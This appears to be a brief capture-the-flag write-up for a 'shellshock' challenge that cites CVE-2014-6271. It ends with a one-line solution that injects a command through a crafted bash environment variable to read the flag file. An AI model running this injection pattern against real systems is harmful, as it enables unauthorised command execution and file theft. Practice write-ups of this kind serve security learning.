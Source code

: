 # shellshock


```
shellshock@pwnable:~$ ./shellshock 
shock_me
```

CVE-2014-6271

>senv x='() { :;}; /bin/cat flag' ./shellshock